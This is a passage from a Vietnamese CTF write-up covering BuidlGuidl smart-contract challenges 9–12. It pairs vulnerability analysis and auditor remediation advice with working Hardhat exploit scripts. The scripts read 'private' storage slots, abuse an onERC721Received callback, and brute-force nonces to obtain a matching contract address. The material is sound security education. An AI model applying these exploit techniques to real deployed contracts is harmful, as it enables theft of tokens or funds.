*   **Red Flag:** Khi audit, việc phát hiện các biến `private` hoặc `internal` được sử dụng để lưu trữ dữ liệu nhạy cảm mà không được mã hóa hoặc hash là một lỗ hổng nghiêm trọng.
*   **Đề xuất sửa lỗi:** **Không bao giờ lưu trữ bí mật ở dạng thô trên blockchain.** Các giải pháp thay thế bao gồm:
    *   **Commit-Reveal Schemes:** Người dùng gửi hash của câu trả lời trước, sau đó gửi câu trả lời thật để xác thực.
    *   **Signatures:** Yêu cầu người dùng ký một thông điệp bằng một khóa được ủy quyền off-chain (như Challenge 4).
    *   **Zero-Knowledge Proofs (ZKP):** Cho phép chứng minh bạn biết một bí mật mà không cần tiết lộ chính bí mật đó.

### **Hướng giải quyết và khai thác**

Cuộc tấn công này không cần contract mới. Toàn bộ logic đọc storage và thao tác bit sẽ được thực hiện trong script deploy.

**1. Viết Script Deploy và Tấn Công**

Tạo file `09_deploy_challenge_9_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract, ethers } from "ethers";

const solveChallenge9: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);

  console.log("🏁 Solving Challenge 9...");

  const challenge9: Contract = await hre.ethers.getContract("Challenge9", signer);
  const challengeAddress = await challenge9.getAddress();

  // === BƯỚC 1: ĐỌC "PRIVATE" STORAGE ===
  console.log("1. Reading 'private' storage slots...");
  // `password` ở slot 1, `count` ở slot 2
  const originalPassword = await hre.ethers.provider.getStorage(challengeAddress, 1);
  const countHex = await hre.ethers.provider.getStorage(challengeAddress, 2);
  const count = BigInt(countHex);
  console.log(`   -> Original Password: ${originalPassword}`);
  console.log(`   -> Current Count: ${count}`);

  // === BƯỚC 2: TÁI TẠO LOGIC BITWISE MỘT CÁCH CHÍNH XÁC ===
  console.log("2. Replicating the bitwise masking logic...");
  
  // Logic bit shifting trong Solidity trên uint256 sẽ xóa byte từ trái sang phải.
  // Do đó, vị trí byte cần xóa trong mảng bytes của JS chính là `count % 32`.
  const byteIndexToZero = Number(count % 32n);
  console.log(`   -> Byte index to zero out: ${byteIndexToZero}`);

  const passwordBytes = ethers.getBytes(originalPassword);
  
  // Xóa trắng byte tại đúng vị trí
  passwordBytes[byteIndexToZero] = 0;

  const craftedPassword = ethers.hexlify(passwordBytes);
  console.log(`   -> Crafted Password: ${craftedPassword}`);

  // === BƯỚC 3: GỌI HÀM VỚI MẬT KHẨU ĐÃ CHẾ TẠO ===
  console.log("3. Calling mintFlag() with the crafted password...");
  const tx = await challenge9.mintFlag(craftedPassword);
  await tx.wait();

  console.log("🎉 Challenge 9 solved successfully!");
};

export default solveChallenge9;
solveChallenge9.tags = ["solution9"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 9:** `yarn deploy --network localhost --tags solution9`

### **Kết luận**

Challenge 9 là một lời nhắc nhở đanh thép: trên blockchain, không có chỗ cho sự riêng tư ở tầng lưu trữ. Từ khóa `private` chỉ giới hạn khả năng truy cập giữa các contract, chứ không hề che giấu dữ liệu khỏi thế giới bên ngoài. Bất kỳ nhà phát triển nào cũng phải ghi nhớ nguyên tắc này và không bao giờ đưa các thông tin nhạy cảm lên storage của contract.

---

## **Challenge #10: Give 1 Get 1**
### **Giới thiệu**

Challenge 10 là một bài toán độc đáo vì nó không có contract `Challenge10.sol` riêng biệt. Toàn bộ câu đố nằm ẩn bên trong contract trung tâm `NFTFlags.sol`. Lỗ hổng không phải là một bug, mà là một "tính năng" được cài cắm có chủ đích vào hàm callback tiêu chuẩn `onERC721Received` của ERC721. Để giải được, chúng ta phải kích hoạt hàm này với một bộ tham số cực kỳ cụ thể.

*   **Địa chỉ contract:** [`0xc1Ebd7a78FE7c075035c516B916A7FB3f33c26cE`](https://optimistic.etherscan.io/address/0xc1Ebd7a78FE7c075035c516B916A7FB3f33c26cE)

### **Phân tích Lỗ hổng: Khai thác Callback `onERC721Received`**

Hàm `onERC721Received` là một "hook" được định nghĩa trong chuẩn ERC721. Nó sẽ tự động được gọi trên một contract khi contract đó nhận một NFT thông qua hàm `safeTransferFrom`. Hãy cùng phân tích implemention của hàm này trong `NFTFlags.sol`:

```solidity
function onERC721Received(
    address,
    address from,
    uint256 tokenId,
    bytes calldata data
) external override returns (bytes4) {
    // Lấy một tokenId khác từ tham số `data`
    uint256 anotherTokenId = _toUint256(data);

    // Yêu cầu 1: Hàm này phải được gọi bởi chính nó
    require(msg.sender == address(this), "only this contract can call this function!");

    // Yêu cầu 2: Người gửi (`from`) phải là chủ sở hữu của `anotherTokenId`
    require(ownerOf(anotherTokenId) == from, "Not owner!");

    // Yêu cầu 3: Token đang được nhận (`tokenId`) phải là cờ của Challenge 1
    require(tokenIdToChallengeId[tokenId] == 1, "Not the right token 1!");

    // Yêu cầu 4: Token được chỉ định trong `data` (`anotherTokenId`) phải là cờ của Challenge 9
    require(tokenIdToChallengeId[anotherTokenId] == 9, "Not the right token 9!");

    // Phần thưởng
    _mintToken(from, 10);

    // Trả lại cờ Challenge 1 cho người gửi
    safeTransferFrom(address(this), from, tokenId);

    return this.onERC721Received.selector;
}
```

**Cuộc điều tra đã có kết quả:**
Để mint được cờ số 10, chúng ta phải kích hoạt hàm này và thỏa mãn tất cả 4 `require`:
1.  **Kích hoạt hàm:** Chúng ta phải gọi `safeTransferFrom` trên contract `NFTFlags` và gửi một token **đến chính địa chỉ của `NFTFlags`**. Khi đó, `NFTFlags` sẽ gọi `onERC721Received` trên chính nó, thỏa mãn `msg.sender == address(this)`.
2.  **Thỏa mãn các `require`:**
    *   `from` phải là địa chỉ của chúng ta (`deployer`).
    *   `tokenId` phải là `tokenId` của cờ Challenge 1 mà chúng ta sở hữu.
    *   `data` phải chứa `tokenId` của cờ Challenge 9 mà chúng ta sở hữu.

**Mục tiêu:**
1.  Giải Challenge 1 và Challenge 9 để có được hai NFT flag cần thiết.
2.  Tìm ra `tokenId` của hai flag đó.
3.  Gọi `safeTransferFrom(deployer, nftFlagsAddress, challenge1TokenId, encodedChallenge9TokenId)`.

### **Góc nhìn của một Auditor**

Đây là một ví dụ tuyệt vời về **"Improper Access Control in Callback Function" (Kiểm soát truy cập không đúng đắn trong hàm Callback)**.
*   **Rủi ro:** Các hàm callback, mặc dù là một phần của tiêu chuẩn, vẫn là các hàm có khả năng thay đổi state. Nếu chúng không được bảo vệ đúng cách, chúng có thể trở thành một vector tấn công ẩn. Trong trường hợp này, một hàm vốn chỉ dùng để xác nhận việc nhận token lại có thêm logic mint token mới.
*   **Red Flag:** Khi audit, bất kỳ hàm callback nào (`onERC721Received`, `tokensReceived`, etc.) có chứa logic nghiệp vụ quan trọng (thay đổi quyền, mint, chuyển tiền) đều phải được xem xét cực kỳ cẩn thận. Liệu có kịch bản nào mà một người dùng không được phép có thể kích hoạt callback này với các tham số đã được chế tạo sẵn không?
*   **Đề xuất sửa lỗi:** Logic nghiệp vụ quan trọng không nên được đặt trong các hàm callback công khai. Nếu bắt buộc, nó phải có các cơ chế kiểm tra quyền truy cập nghiêm ngặt, không chỉ dựa vào các tham số của callback.

### **Hướng giải quyết và khai thác**

Chúng ta sẽ viết một script duy nhất để thực hiện toàn bộ chuỗi tấn công: giải các challenge tiên quyết, tìm token ID, và cuối cùng là gọi `safeTransferFrom`.

**1. Viết script deploy và tấn công**

Tạo file `10_deploy_challenge_10_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract, ethers, EventLog } from "ethers";

const solveChallenge10: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);

  console.log("🏁 Solving Challenge 10...");

  const nftFlags: Contract = await hre.ethers.getContract("NFTFlags", signer);
  const nftFlagsAddress = await nftFlags.getAddress();

  // BƯỚC 1: KIỂM TRA VÀ GIẢI CÁC CHALLENGE TIÊN QUYẾT
  console.log("1. Checking and solving prerequisites (Challenge 1 and 9)...");

  // Kiểm tra Challenge 1
  const hasMinted1 = await nftFlags.hasMinted(deployer, 1);
  if (!hasMinted1) {
    console.log("   -> Challenge 1 not solved. Solving now...");
    const challenge1: Contract = await hre.ethers.getContract("Challenge1", signer);
    await (await challenge1.registerMe("Solver for #10")).wait();
    console.log("   -> Challenge 1 solved.");
  } else {
    console.log("   -> Challenge 1 already solved.");
  }

  // Kiểm tra Challenge 9
  const hasMinted9 = await nftFlags.hasMinted(deployer, 9);
  if (!hasMinted9) {
    console.log("   -> Challenge 9 not solved. Solving now...");
    const challenge9: Contract = await hre.ethers.getContract("Challenge9", signer);
    const originalPassword = await hre.ethers.provider.getStorage(await challenge9.getAddress(), 1);
    const countHex = await hre.ethers.provider.getStorage(await challenge9.getAddress(), 2);
    const count = BigInt(countHex);
    const byteIndexToZero = Number(count % 32n);
    const passwordBytes = ethers.getBytes(originalPassword);
    passwordBytes[byteIndexToZero] = 0;
    const craftedPassword = ethers.hexlify(passwordBytes);
    await (await challenge9.mintFlag(craftedPassword)).wait();
    console.log("   -> Challenge 9 solved.");
  } else {
    console.log("   -> Challenge 9 already solved.");
  }

  // BƯỚC 2: TÌM TOKEN ID TỪ EVENT LOGS
  console.log("\n2. Finding the required token IDs from event logs...");

  const filter1 = nftFlags.filters.FlagMinted(deployer, null, 1);
  // `queryFilter` với blockTag 'latest' có thể không tìm thấy event trong cùng block,
  // nên chúng ta sẽ tìm từ block 0 để đảm bảo.
  const events1 = await nftFlags.queryFilter(filter1, 0, "latest");
  const lastEvent1 = events1[events1.length - 1];
  // Kiểm tra xem event có tồn tại và có thuộc tính 'args' không
  if (!lastEvent1 || !("args" in lastEvent1)) {
    throw new Error("Could not find a valid FlagMinted event for Challenge 1");
  }
  const challenge1TokenId = lastEvent1.args.tokenId;

  const filter9 = nftFlags.filters.FlagMinted(deployer, null, 9);
  const events9 = await nftFlags.queryFilter(filter9, 0, "latest");
  const lastEvent9 = events9[events9.length - 1];
  // Kiểm tra xem event có tồn tại và có thuộc tính 'args' không
  if (!lastEvent9 || !("args" in lastEvent9)) {
    throw new Error("Could not find a valid FlagMinted event for Challenge 9");
  }
  const challenge9TokenId = lastEvent9.args.tokenId;

  console.log(`   -> Found Token ID for Challenge 1: ${challenge1TokenId}`);
  console.log(`   -> Found Token ID for Challenge 9: ${challenge9TokenId}`);

  // BƯỚC 3: CHẾ TẠO THAM SỐ VÀ TẤN CÔNG
  console.log("\n3. Crafting parameters and triggering the onERC721Received hook...");

  const data = ethers.AbiCoder.defaultAbiCoder().encode(["uint256"], [challenge9TokenId]);

  const tx = await nftFlags["safeTransferFrom(address,address,uint256,bytes)"](
    deployer,
    nftFlagsAddress,
    challenge1TokenId,
    data,
  );
  await tx.wait();

  console.log("\n🎉 Challenge 10 solved successfully!");
};

export default solveChallenge10;
solveChallenge10.tags = ["solution10"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 10 (script sẽ tự giải các challenge tiên quyết):** `yarn deploy --network localhost --tags solution10`

### **Kết luận**

Challenge 10 là một bài học sâu sắc về việc các chức năng tiêu chuẩn có thể bị "vũ khí hóa" như thế nào nếu được implement với logic kiểm soát truy cập không đầy đủ. Nó nhắc nhở chúng ta rằng mọi hàm `public` hoặc `external`, kể cả các hàm callback, đều là một vector tấn công tiềm tàng và phải được xem xét kỹ lưỡng trong quá trình thiết kế và audit.

## **Challenge #11: Who can call me?**
### **Giới thiệu**

Challenge 11 là một câu đố mật mã học ứng dụng tinh vi. Nó không có lỗ hổng bảo mật "cổ điển", thay vào đó, nó đặt ra một điều kiện dường như ngẫu nhiên dựa trên các bit cuối cùng của địa chỉ người gọi và người khởi tạo giao dịch. Để giải được, chúng ta phải hiểu cách địa chỉ contract được tạo ra và thực hiện một cuộc tấn công tìm kiếm để "đúc" ra một địa chỉ contract có các thuộc tính mong muốn.

*   **Địa chỉ contract:** [`0x67392ea0A56075239988B8E1E96663DAC167eF54`](https://optimistic.etherscan.io/address/0x67392ea0A56075239988B8E1E96663DAC167eF54)

### **Phân tích "Câu đố": Yêu cầu về Bitmask**

Hãy phân tích hàm `mintFlag()`:
```solidity
function mintFlag() public {
    // Yêu cầu 1: Người gọi phải là một contract
    require(msg.sender != tx.origin, "Not allowed");

    // Lấy byte cuối cùng của địa chỉ contract (msg.sender)
    uint8 senderLast = uint8(abi.encodePacked(msg.sender)[19]);
    // Lấy byte cuối cùng của địa chỉ ví chúng ta (tx.origin)
    uint8 originLast = uint8(abi.encodePacked(tx.origin)[19]);

    // Yêu cầu 2: Kết quả của phép toán bitwise AND phải bằng nhau
    require((senderLast & 0x15) == (originLast & 0x15), "Not allowed");

    INFTFlags(nftContract).mint(tx.origin, 11);
}
```
**Mấu chốt nằm ở yêu cầu thứ hai:**
*   `0x15` trong hệ nhị phân là `00010101`.
*   Phép toán `&` (bitwise AND) hoạt động như một "mặt nạ" (mask). Nó sẽ giữ lại các bit ở vị trí có số 1 trong mặt nạ và xóa các bit còn lại về 0.
*   Yêu cầu `(senderLast & 0x15) == (originLast & 0x15)` có nghĩa là: Các bit ở vị trí 0, 2, và 4 của byte cuối cùng trong địa chỉ contract phải **giống hệt** các bit tương ứng trong byte cuối cùng của địa chỉ ví chúng ta.

**Vấn đề:** Địa chỉ của một contract được tạo ra một cách tất định (deterministic) dựa trên địa chỉ của người deploy và nonce của họ: `address = keccak256(rlp.encode([deployer_address, nonce]))`. Chúng ta không thể "chọn" một địa chỉ contract, nhưng chúng ta có thể **dự đoán** nó.

**Mục tiêu:** Tìm một `nonce` sao cho địa chỉ contract được tạo ra từ `(deployer, nonce)` sẽ thỏa mãn điều kiện bitmask.

### **Góc nhìn của một Auditor**

Đây là một ví dụ về **"Weak Access Control based on Predictable Properties" (Kiểm soát truy cập yếu dựa trên các thuộc tính có thể dự đoán được)**.
*   **Rủi ro:** Bất kỳ logic nào dựa trên các thuộc tính "ngẫu nhiên" của một địa chỉ đều có thể bị phá vỡ nếu kẻ tấn công có đủ tài nguyên để tìm kiếm một địa chỉ thỏa mãn điều kiện (tạo "vanity address"). Ví dụ, một airdrop chỉ dành cho các địa chỉ kết thúc bằng `0x00` có thể bị khai thác.
*   **Red Flag:** Khi audit, việc phát hiện logic kinh doanh quan trọng phụ thuộc vào các thuộc tính của `msg.sender` hoặc `tx.origin` (ngoài việc kiểm tra danh tính đơn giản) là một "red flag". Nó cho thấy một thiết kế có thể bị tấn công bằng brute-force.
*   **Đề xuất sửa lỗi:** Cơ chế kiểm soát truy cập phải dựa trên các phương pháp mật mã mạnh mẽ như chữ ký số, danh sách trắng được quản lý an toàn, hoặc vai trò (roles), chứ không phải các đặc tính ngẫu nhiên của địa chỉ.

### **Hướng giải quyết và khai thác**

Chúng ta sẽ viết một script để thực hiện cuộc tấn công tìm kiếm (brute-force):
1.  Tính giá trị bitmask mục tiêu từ địa chỉ `deployer`.
2.  Lặp qua các nonce (`0, 1, 2, ...`).
3.  Với mỗi nonce, dự đoán địa chỉ contract sẽ được tạo ra.
4.  Kiểm tra xem địa chỉ dự đoán có thỏa mãn điều kiện bitmask không.
5.  Khi tìm thấy nonce "vàng", chúng ta sẽ "đốt" các nonce trước đó bằng cách gửi các giao dịch trống, sau đó deploy contract tấn công ở đúng nonce đó.

**1. Viết Contract Tấn Công (Wrapper đơn giản)**

Tạo file `Challenge11Solution.sol` trong `packages/hardhat/contracts/`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

interface IChallenge11 {
    function mintFlag() external;
}

contract Challenge11Solution {
    IChallenge11 public immutable target;

    constructor(address _targetAddress) {
        target = IChallenge11(_targetAddress);
    }

    function attack() external {
        target.mintFlag();
    }
}
```

**2. Viết Script Deploy và Tấn Công**

Tạo file `11_deploy_challenge_11_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract, ethers } from "ethers";

const solveChallenge11: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);

  console.log("🏁 Solving Challenge 11...");

  // === BƯỚC 1: TÍNH TOÁN GIÁ TRỊ BITMASK MỤC TIÊU ===
  console.log("1. Calculating target bitmask from deployer's address...");
  const originLastByte = parseInt(deployer.slice(-2), 16);
  const targetMaskedValue = originLastByte & 0x15;
  console.log(`   -> Deployer's last byte: 0x${originLastByte.toString(16)}`);
  console.log(`   -> Target masked value: 0x${targetMaskedValue.toString(16)}`);

  // === BƯỚC 2: TÌM KIẾM NONCE "VÀNG" ===
  console.log("2. Brute-forcing to find a suitable nonce...");
  let goldenNonce = -1;
  const initialNonce = await signer.getNonce();

  for (let i = 0; i < 1000; i++) { // Giới hạn 1000 lần thử
    const currentNonce = initialNonce + i;
    const predictedAddress = ethers.getCreateAddress({ from: deployer, nonce: currentNonce });
    const senderLastByte = parseInt(predictedAddress.slice(-2), 16);
    const senderMaskedValue = senderLastByte & 0x15;

    if (senderMaskedValue === targetMaskedValue) {
      goldenNonce = currentNonce;
      console.log(`   -> ✨ Golden Nonce Found: ${goldenNonce}`);
      console.log(`   -> Predicted Address: ${predictedAddress}`);
      break;
    }
  }

  if (goldenNonce === -1) {
    throw new Error("Could not find a suitable nonce within 1000 tries.");
  }

  // === BƯỚC 3: "ĐỐT" NONCE ĐỂ ĐẠT ĐẾN NONCE VÀNG ===
  const noncesToBurn = goldenNonce - (await signer.getNonce());
  if (noncesToBurn > 0) {
    console.log(`3. Burning ${noncesToBurn} nonces to reach the target...`);
    for (let i = 0; i < noncesToBurn; i++) {
      // Gửi giao dịch trống đến chính mình
      await signer.sendTransaction({ to: deployer, value: 0 });
    }
  } else {
    console.log("3. Already at the correct nonce.");
  }

  // === BƯỚC 4: DEPLOY VÀ TẤN CÔNG ===
  console.log("4. Deploying the solution contract at the golden nonce...");
  const challenge11: Contract = await hre.ethers.getContract("Challenge11", signer);
  await hre.deployments.deploy("Challenge11Solution", {
    from: deployer,
    args: [await challenge11.getAddress()],
    log: true,
  });

  const solutionContract: Contract = await hre.ethers.getContract("Challenge11Solution", signer);
  console.log("5. Calling attack() from the newly deployed contract...");
  const attackTx = await solutionContract.attack();
  await attackTx.wait();

  console.log("🎉 Challenge 11 solved successfully!");
};

export default solveChallenge11;
solveChallenge11.tags = ["solution11"];
```

**3. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 11:** `yarn deploy --network localhost --tags solution11`

### **Kết luận**

Challenge 11 là một minh chứng tuyệt vời cho tính tất định của blockchain. Mặc dù việc tạo địa chỉ có vẻ ngẫu nhiên, nó tuân theo một công thức có thể dự đoán được. Bất kỳ logic nào dựa trên các thuộc tính "ngẫu nhiên" này đều có thể bị tấn công bằng brute-force. Bài toán này dạy chúng ta một bài học quan trọng: luôn xây dựng cơ chế bảo mật dựa trên các nguyên tắc mật mã đã được chứng minh, thay vì dựa vào sự che giấu hoặc các thuộc tính có thể dự đoán được của hệ thống.

---

## **Challenge #12: Give me the block!**

### **Giới thiệu**

Challenge 12 là một bài tập sâu về kiến trúc của Ethereum. Nó yêu cầu chúng ta phải hiểu cách một block được cấu tạo, cách dữ liệu của nó được mã hóa bằng RLP (Recursive Length Prefix), và cách EVM xác thực lịch sử của chính nó. Để giải được, chúng ta phải thực hiện một quy trình gồm nhiều bước: tương tác với contract, chờ đợi, lấy dữ liệu lịch sử từ blockchain, tái tạo lại block header, và cuối cùng là gửi nó trở lại contract để xác thực.

*   **Địa chỉ contract:** [`0x8c7A3c2c44aB16f693d1731b10C271C7d2967769`](https://optimistic.etherscan.io/address/0x8c7A3c2c44aB16f693d1731b10C271C7d2967769)

### **Phân tích "Câu đố": Quy trình xác thực Block Header**

Toàn bộ logic của challenge nằm trong hai hàm:
1.  **`preMintFlag()`:**
    ```solidity
    function preMintFlag() public {
        require(blocks[block.number] == false, "Block already used");
        blocks[block.number] = true;
        blockNumber[msg.sender] = block.number;
    }
    ```
    Hàm này hoạt động như một điểm "check-in". Nó ghi lại số block hiện tại (`block.number`) mà bạn đã gọi hàm.

2.  **`mintFlag(bytes memory rlpBytes)`:**
    ```solidity
    function mintFlag(bytes memory rlpBytes) public {
        // 1. Phải gọi preMintFlag trước
        require(blockNumber[msg.sender] != 0, "PreMintFlag first");
        // 2. Phải đợi ít nhất `futureBlocks` (2) block trôi qua
        require(block.number >= blockNumber[msg.sender] + futureBlocks, "Future block not reached.");
        // 3. Không được đợi quá lâu (giới hạn 256 blocks)
        require(block.number < blockNumber[msg.sender] + futureBlocks + 256, "You miss the window...");

        // 4. Giải mã RLP để lấy block number từ header
        RLPReader.RLPItem[] memory ls = rlpBytes.toRlpItem().toList();
        uint256 blockNumberFromHeader = ls[8].toUint();

        // 5. Block number trong header phải là block mục tiêu
        require(blockNumberFromHeader == blockNumber[msg.sender] + futureBlocks, "Wrong block");

        // 6. Hash của header phải khớp với blockhash được lưu trên chuỗi
        require(blockhash(blockNumberFromHeader) == keccak256(rlpBytes), "Wrong block header");

        INFTFlags(nftContract).mint(msg.sender, 12);
    }
    ```
Mấu chốt của bài toán nằm ở yêu cầu cuối cùng trong hàm `mintFlag`:
`require(blockhash(blockNumberFromHeader) == keccak256(rlpBytes), "Wrong block header");`


**Mục tiêu:**
1.  Gọi `preMintFlag()` để ghi lại `block_N`.
2.  Đợi chính xác 2 block trôi qua, đến `block_N+2`.
3.  Lấy toàn bộ dữ liệu của `block_N+2` từ một node Ethereum.
4.  Tái tạo lại header của `block_N+2` và mã hóa nó bằng RLP.
5.  Gọi `mintFlag()` và truyền vào chuỗi RLP đã mã hóa để `keccak256(rlpBytes)` khớp với `blockhash` được lưu trên chuỗi.

### **Góc nhìn của một Auditor**

Đây không phải là một lỗ hổng, mà là một cơ chế xác thực mạnh mẽ, thường được sử dụng trong các bridge (cầu nối) hoặc light client để xác minh các bằng chứng giao dịch (transaction proofs) từ một chuỗi khác. Tuy nhiên, việc implement nó có thể tiềm ẩn rủi ro:
*   **Sự phụ thuộc vào `blockhash`:** Logic dựa vào `blockhash` sẽ thất bại nếu người dùng đợi quá 256 block. Contract phải có cơ chế xử lý trường hợp này một cách hợp lý (như cho phép `preMintFlag` lại). Challenge này đã làm tốt điều đó.
*   **Sự phức tạp của RLP:** Logic giải mã RLP rất phức tạp và khó viết đúng. Một lỗi nhỏ trong thư viện RLPReader có thể dẫn đến các lỗ hổng nghiêm trọng, cho phép kẻ tấn công tạo ra các header giả mạo nhưng vẫn qua được các bước kiểm tra.
*   **Sự khác biệt giữa các Hard Fork:** Cấu trúc của block header có thể thay đổi sau các bản nâng cấp mạng (ví dụ: The Merge, Cancun-Deneb). Một contract được viết cho một phiên bản Ethereum cũ có thể không tương thích với cấu trúc header mới, dẫn đến lỗi.

### **Hướng giải quyết và khai thác**

Do tính chất phức tạp và nhiều bước của bài toán, việc sử dụng một script deploy đơn giản là không phù hợp. Một cách tiếp cận chuyên nghiệp và linh hoạt hơn là tạo ra một Hardhat Task riêng biệt. Task này sẽ đóng vai trò như một công cụ chuyên dụng để thực hiện toàn bộ chuỗi hành động một cách tự động.

**1. Viết Script Deploy và Tấn Công**

Tạo file `12_deploy_challenge_12_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract, ethers } from "ethers";
import { RLP } from "@ethereumjs/rlp";

const solveChallenge12: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);
  const provider = hre.ethers.provider;

  console.log("🏁 Solving Challenge 12 by EXACTLY adapting the known working solution...");

  const challenge12: Contract = await hre.ethers.getContract("Challenge12", signer);

  // === Gọi preMintFlag ===
  const preMintTx = await challenge12.preMintFlag();
  const preMintReceipt = await preMintTx.wait();
  const preMintBlockNumber = preMintReceipt.blockNumber;
  console.log(`1. Registered at block: ${preMintBlockNumber}`);

  // === Đào block ===
  const futureBlocks = 2;
  const targetBlockNumber = preMintBlockNumber + futureBlocks;
  console.log(`2. Mining blocks to reach target: ${targetBlockNumber}`);
  for (let i = 0; i < futureBlocks; i++) {
    await provider.send("evm_mine", []);
  }

  // === Lấy dữ liệu block thô và tái tạo header ===
  console.log("3. Fetching RAW block data and reconstructing the header...");
  
  const rawBlock = await provider.send("eth_getBlockByNumber", [
    ethers.toQuantity(targetBlockNumber),
    false, 
  ]);

  if (!rawBlock) {
    throw new Error(`Could not fetch raw block ${targetBlockNumber}`);
  }

  // Hàm trợ giúp để xử lý các giá trị null/undefined/0x0
  const formatField = (value: any): string => {
      // RLP encoding of 0 is an empty buffer, which is '0x' in hex.
      if (value === null || value === undefined || value === '0x0' || value === 0 || value === 0n) {
          return '0x';
      }
      // Ensure it's a hex string with even length
      let hexStr = typeof value === 'string' ? value : `0x${value.toString(16)}`;
      // Pad with leading zero if odd length (after '0x')
      if (hexStr.startsWith('0x') && (hexStr.length - 2) % 2 !== 0) {
          hexStr = '0x0' + hexStr.slice(2);
      }
      return ethers.hexlify(hexStr);
  }

  // Tái tạo lại chính xác cấu trúc header.
  // Chú ý quan trọng: Sau The Merge, trường `difficulty` được thay thế bằng `prevRandao`,
  // giá trị này được lấy từ `rawBlock.mixHash`.
  const blockHeader = [
      rawBlock.parentHash,
      rawBlock.sha3Uncles,
      rawBlock.miner,
      rawBlock.stateRoot,
      rawBlock.transactionsRoot,
      rawBlock.receiptsRoot,
      rawBlock.logsBloom,
      formatField(rawBlock.difficulty),
      formatField(rawBlock.number),
      formatField(rawBlock.gasLimit),
      formatField(rawBlock.gasUsed),
      formatField(rawBlock.timestamp),
      rawBlock.extraData,
      rawBlock.mixHash,
      rawBlock.nonce,
      formatField(rawBlock.baseFeePerGas),
      rawBlock.withdrawalsRoot,
      formatField(rawBlock.blobGasUsed),
      formatField(rawBlock.excessBlobGas),
      rawBlock.parentBeaconBlockRoot,
  ].filter(v => v !== undefined && v !== null); // Lọc các trường không tồn tại hoặc null

  const encoded = RLP.encode(blockHeader);
  const rlpEncodedHeader = ethers.hexlify(encoded);
  
  const computedHash = ethers.keccak256(rlpEncodedHeader);
  console.log(`   -> Computed Hash: ${computedHash}`);
  console.log(`   -> Actual Hash:   ${rawBlock.hash}`);
  if (computedHash === rawBlock.hash) {
      console.log("   -> ✅ Hash matches! This is the correct RLP encoding.");
  } else {
      console.error("🔥 Hash mismatch!");
  }
  
  // === Gọi mintFlag ===
  console.log("4. Calling mintFlag() with the RLP-encoded header...");
  const mintTx = await challenge12.mintFlag(rlpEncodedHeader);
  await mintTx.wait();

  console.log("🎉 Challenge 12 solved successfully!");
};

export default solveChallenge12;
solveChallenge12.tags = ["solution12"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 12:** `yarn deploy --network localhost --tags solution12`

### **Kết luận**

Challenge 12 là một bài kiểm tra sâu sắc về kiến thức nền tảng của Ethereum. Việc gỡ lỗi để tìm ra cấu trúc RLP encoding chính xác cho block header là một bài học thực tế về sự phức tạp và những khác biệt tinh vi giữa các phiên bản EVM. Bằng cách tạo ra một Hardhat Task chuyên dụng, chúng ta có thể xử lý các quy trình tương tác phức tạp một cách sạch sẽ và hiệu quả, chứng tỏ kỹ năng vượt ra ngoài việc chỉ viết smart contract đơn thuần.

---

## **Lời kết: 12/12 Flags Reclaimed!**


Vậy là hành trình chinh phục 12 thử thách của BuidlGuidl CTF đã hoàn thành. Đây không chỉ đơn thuần là một chuỗi bài tập giải đố, mà là một khóa huấn luyện cấp tốc về tư duy của một hacker và một auditor bảo mật. Mỗi challenge là một bài học thực tế, buộc chúng ta phải đào sâu vào cách EVM hoạt động.

Từ những khái niệm cơ bản nhưng dễ gây nhầm lẫn như sự khác biệt giữa `tx.origin` và `msg.sender`, chúng ta đã đi qua những lỗ hổng kinh điển đã làm thay đổi lịch sử Ethereum như **Re-entrancy**, khám phá sức mạnh và sự nguy hiểm của **`delegatecall`**, và học cách "đọc" những bí mật mà từ khóa `private` không thể che giấu.

Hành trình còn đưa chúng ta đến những kỹ năng nâng cao hơn: từ việc "điều khiển" gas một cách chính xác, **reverse-engineering** một contract "hộp đen" từ bytecode, cho đến việc tái tạo lại một phần cốt lõi của chính blockchain là **block header** thông qua mã hóa RLP.

Hy vọng rằng bộ write-up này không chỉ là một bản ghi chép các lời giải, mà còn là một tài liệu hữu ích cho bất kỳ ai muốn bắt đầu con đường nghiên cứu bảo mật smart contract và lần đầu tiếp cận với blockchain.

> Happy hacking, and reclaim those flags!
